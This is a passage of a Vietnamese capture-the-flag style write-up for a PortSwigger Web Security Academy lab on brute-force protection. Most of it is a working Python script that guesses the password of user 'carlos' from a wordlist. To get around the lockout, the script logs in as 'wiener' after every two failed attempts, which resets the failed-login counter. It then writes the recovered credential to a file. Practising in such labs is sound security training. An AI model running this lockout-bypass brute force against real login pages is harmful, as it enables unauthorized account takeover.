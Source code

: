 Thử dùng header `X-Forwarded-For` để giả ip khác nhưng ta vẫn bị giới hạn → lab này ta không dùng được header đó.

Như vậy, khi login thất bại 2 lần liên tiếp, ta cần login vào tài khoản `wiener` để server reset số lần đăng nhập thất bại

```python
import requests

url = "https://acc71fb31f2cc7c4c01b1901008a002c.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

valid_cred = {
    'username': 'wiener',
    'password': 'peter'
}

username = 'carlos'
password = None

count = 0
for pwd in open('password.txt').read().splitlines():
    if count < 2:
        count += 1
    else:
        res = requests.post(url=url, data=valid_cred)
        # print(res.status_code)
        # with open('res_valid.html', 'wb') as file:
        #     file.write(res.content)
        count = 1

    data = {
        'username': username,
        'password': pwd
    }
    print(data)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Incorrect password' not in res:
        password = pwd
        break

if password is None:
    print("No password")
    exit(1)

print(f"{username}:{password}")
with open("credential.txt", 'w') as file:
    file.write(f"{username}:{password}")
```
